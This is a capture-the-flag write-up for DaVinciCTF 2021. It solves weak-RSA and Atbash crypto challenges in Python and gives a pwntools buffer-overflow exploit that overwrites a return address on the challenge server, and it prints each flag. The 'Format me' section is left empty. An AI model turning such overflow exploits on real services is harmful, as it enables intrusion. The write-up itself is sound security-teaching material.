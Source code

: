 # DaVinciCTF 2021-03

<insert intro text here>

## Crypto Category

### Bootless RSA - 25

![](Challenge%20Screenshots/Bootless%20RSA.png)

Yep, one of the dangers of a small RSA exponent. If our message is significantly smaller than our modulus, we can end up with a cipher text that is simply m^e (no mod n). In this case we can simply try to find the e-th root of our cipher text to derive the original message. So I patched up a little Python script

```py
# Find the integer cube root of n
def integer_cube_root(n):
    lo = 0
    hi = n
    while lo < hi:
        mid = (lo + hi) // 2
        if mid**3 < n:
            lo = mid + 1
        else:
            hi = mid
    return lo

# RSA parameters
e = 3
n = 148818474926605063920889194160313225216327492347368329952620222220173505969004341728021623813340175402441807560635794342531823708335067243413446678485411066531733814714571491348985375389581214154895499404668547123130986872208497176485731000235899479072455273651103419116166704826517589143262273754343465721499
c = 4207289555943423943347752283361812551010483368240079114775648492647342981294466041851391508960558500182259304840957212211627194015260673748342757900843998300352612100260598133752360374373

# Get the cube of the cipher text
c_cube = integer_cube_root(c)
# Get the bit string and individual bytes
bitstr = '0' + bin(c_cube)[2:]
bits = [bitstr[i:i+8] for i in range(0,len(bitstr),8)]

# Convert byte strings to ASCII characters
flag = ''.join([chr(int(i, 2)) for i in bits])
print(flag)
```
to find the flag :)
```
dvCTF{RS4_m0dul0_inf1nity}
```



### The more, the less - 41

![](Challenge%20Screenshots/The%20more,%20the%20less.png)

Checking the factors of our modulus n in factordb we find a lot of 10-length primes, but not all are fully factorised. So let us use ... as well, to find the full factorisation of n. I added the all unknown factors to factordb :). Now that we know all primes that constitute n, we can simply derive the private key by taking the modular inverse of the RSA exponent e, mod phi(n).

```py
# Modular inverse of x mod n
def eulinv(x, n):
    a, b, u = 0, n, 1
    while x > 0:
        q = b // x # integer division
        x, a, b, u = b % x, u, x, a - q * u
    if b == 1:
        return a % n
    else:
        return None
    
# RSA parameters
n=31599415905194296507531163994468257280886159280045654346389430217405819290199334738577568528414824952061262558727052291045816515870348057534996441596560396962516719727878569643953152119895297353348080193869479088114850667155373326828408666807238584625432868509009967976378084883283066242914464294233411627
e=65537
# Cipher text
c=11371525982887248215036029303506383319725323173791816242922348267059091038845164126422411329763551336318264887183213679689757761368186436315189029720350805092964515239812759488055450797557376437081404871060787004042110689348646779529227539692241991396962852995556540999064671425810298104591755058349120054

# Initial factors of n
f = [int(i) for i in "2563604567<10> · 2715012803<10> · 2788319507<10> · 2823467653<10> · 3613621433<10> · 3876487189<10> · 3890394553<10> · 3898886171<10> · 4029819973<10> · 4226418397<10> · ".split("<10> · ")[:-1]]
# The remaining factors of n 
more_f = [int(i) for i in "2178 670709 × 2292 487361 × 2903 526499 × 3035 960167 × 3068 856233 × 3592 739747 × 3852 924077 × 3910 833851 × 4068 148789 × 4109 794417 × 2152 978987 × 2367 104263 × 2571 500203 × 2936 894063 × 2989 253341 × 3165 948211 × 3391 790461 × 3961 066927 × 3989 645813 × 4014 542803 × 4024 893437 × 4130 412409 ".replace(" ","").split("×")]
# Combine all prime factors
primes = f + more_f

# Calculate phi(n)
phi=1
for p in primes:
    phi *= (p-1)

# Calculate private key
d = eulinv(e, phi)

# Decode the message
m = pow(c, d, n)
# Get the bit string of the message
mbitstr = '0'+bin(m)[2:]
# Convert bit string to ASCII characters to form the flag
flag = ''.join([chr(int(mbitstr[i:i+8], 2)) for i in range(0,len(mbitstr),8)])
print(flag)
```

```
dvCTF{rs4_f4ctor1z4t10n!!!}
```



### Substitution - 25

![](Challenge%20Screenshots/Substitution.png)

```
Rm xibkgltizksb, z hfyhgrgfgrlm xrksvi rh z nvgslw lu vmxibkgrmt rm dsrxs fmrgh lu kozrmgvcg ziv ivkozxvw drgs xrksvigvcg, zxxliwrmt gl z urcvw hbhgvn; gsv "fmrgh" nzb yv hrmtov ovggvih (gsv nlhg xlnnlm), kzrih lu ovggvih, girkovgh lu ovggvih, nrcgfivh lu gsv zylev, zmw hl uligs. Gsv ivxvrevi wvxrksvih gsv gvcg yb kviulinrmt gsv rmevihv hfyhgrgfgrlm.

Hfyhgrgfgrlm xrksvih xzm yv xlnkzivw drgs gizmhklhrgrlm xrksvih. Rm z gizmhklhrgrlm xrksvi, gsv fmrgh lu gsv kozrmgvcg ziv ivziizmtvw rm z wruuvivmg zmw fhfzoob jfrgv xlnkovc liwvi, yfg gsv fmrgh gsvnhvoevh ziv ovug fmxszmtvw. Yb xlmgizhg, rm z hfyhgrgfgrlm xrksvi, gsv fmrgh lu gsv kozrmgvcg ziv ivgzrmvw rm gsv hznv hvjfvmxv rm gsv xrksvigvcg, yfg gsv fmrgh gsvnhvoevh ziv zogvivw.

Gsviv ziv z mfnyvi lu wruuvivmg gbkvh lu hfyhgrgfgrlm xrksvi. Ru gsv xrksvi lkvizgvh lm hrmtov ovggvih, rg rh gvinvw z hrnkov hfyhgrgfgrlm xrksvi; z xrksvi gszg lkvizgvh lm ozitvi tilfkh lu ovggvih rh gvinvw klobtizksrx. Z nlmlzokszyvgrx xrksvi fhvh urcvw hfyhgrgfgrlm levi gsv vmgriv nvhhztv, dsvivzh z klobzokszyvgrx xrksvi fhvh z mfnyvi lu hfyhgrgfgrlmh zg wruuvivmg klhrgrlmh rm gsv nvhhztv, dsviv z fmrg uiln gsv kozrmgvcg rh nzkkvw gl lmv lu hvevizo klhhryrorgrvh rm gsv xrksvigvcg zmw erxv evihz.
weXGU{xi1kg3w_x1ks3i}
```

Using any cipher identifier will tell us it is encoded using the Atbash Cipher. Decoding it gives us a nice educational paragraph on substitution ciphers. 

```
In cryptography, a substitution cipher is a method of encrypting in which units of plaintext are replaced with ciphertext, according to a fixed system; the "units" may be single letters (the most common), pairs of letters, triplets of letters, mixtures of the above, and so forth. The receiver deciphers the text by performing the inverse substitution.

Substitution ciphers can be compared with transposition ciphers. In a transposition cipher, the units of the plaintext are rearranged in a different and usually quite complex order, but the units themselves are left unchanged. By contrast, in a substitution cipher, the units of the plaintext are retained in the same sequence in the ciphertext, but the units themselves are altered.

There are a number of different types of substitution cipher. If the cipher operates on single letters, it is termed a simple substitution cipher; a cipher that operates on larger groups of letters is termed polygraphic. A monoalphabetic cipher uses fixed substitution over the entire message, whereas a polyalphabetic cipher uses a number of substitutions at different positions in the message, where a unit from the plaintext is mapped to one of several possibilities in the ciphertext and vice versa.
```

Oh, and also the flag :).

```
dvCTF{cr1pt3d_c1ph3r}
```



## Pwn Category

### Kanagawa - 59

![](Challenge%20Screenshots/Kanagawa.png)

...

```py
# Imports
from pwn import *

# Host and port
host = "challs.dvc.tf"
port = 4444

# Buffer sizes of user inputs
buf1 = b'A'*40
buf2 = b'A'*1024

# Payload (hex address of recovery_mode())
payload = b'\x1b\x85\x04\x08'

# Set up connection
s = remote(host, port)

# Send payload
s.recvuntil(": ")
s.sendline(buf1+payload)
# Get through the binary inputs
s.recvuntil(": ")
s.sendline(buf2)

# Print received lines (flag?)
print(s.recv())

# Close connection
s.close()
```

```
dvCTF{0v3rfl0w_tsun4m1}
```



### Format me - 90

![](Challenge%20Screenshots/Format%20me.png)

...

```py

```

```

```
